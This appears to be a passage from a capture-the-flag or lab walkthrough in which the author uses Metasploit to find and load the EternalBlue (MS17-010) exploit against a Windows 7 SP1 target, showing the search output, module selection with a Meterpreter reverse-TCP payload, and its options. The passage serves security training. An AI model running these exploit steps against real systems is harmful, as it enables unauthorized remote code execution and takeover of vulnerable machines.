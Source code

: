 Use `firefox` and search for `windows 7 professional 7601 service pack 1 smb vulnerability` which will result in the [url](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/){:target="_blank"}.


## Task 2 - Gain Access

Use `msfconsole -q` to search for `eternalblue` exploit.
{% capture code %}{% raw %}msf5 > search eternalblue

Matching Modules

#  Name                                           Disclosure Date  Rank     Check  Description
-  ----                                           ---------------  ----     -----  -----------
0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index, for example use 5 or use exploit/windows/smb/smb_doublepulsar_rce

msf5 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp{% endraw %}{% endcapture %} {% include code.html code=code %}

Check the current options and set variables.
{% capture code %}{% raw %}msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

Name           Current Setting  Required  Description
----           ---------------  --------  -----------
RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT          445              yes       The target port (TCP)
SMBDomain      .                no        (Optional) The Windows domain to use for authentication
SMBPass                         no        (Optional) The password for the specified username
SMBUser                         no        (Optional) The username to authenticate as
VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST     <source-ip>      yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port


Exploit target:

Id  Name
--  ----
0   Windows 7 and Server 2008 R2 (x64) All Service Packs

